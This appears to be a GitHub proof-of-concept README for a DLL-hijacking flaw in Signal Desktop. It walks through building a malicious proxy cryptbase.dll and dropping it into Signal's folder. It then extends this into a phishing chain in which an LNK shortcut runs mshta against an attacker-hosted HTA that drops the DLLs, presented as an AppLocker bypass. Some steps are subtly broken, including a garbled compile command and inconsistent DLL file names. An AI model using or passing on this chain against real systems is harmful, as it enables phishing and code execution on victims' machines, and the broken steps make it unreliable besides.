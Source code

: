 # CVE-2023-XXXXX
## CVE Description

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `payload.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compilex86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/1.png?token=GHSAT0AAAAAABZSW66OBKS446AIMVFSEHF6ZASOIUQ)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/2.png?token=GHSAT0AAAAAABZSW66P7OWYJP4BVQXBRA5GZASOJGQ)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a custom DLL payload and cut out the secondary remote call.
   
    ![RCE Proof](https://raw.githubusercontent.com/johnjhacking/placeholder/main/3.png?token=GHSAT0AAAAAABZSW66OWR6EFTYZEPV3LOHCZASOJSQ)
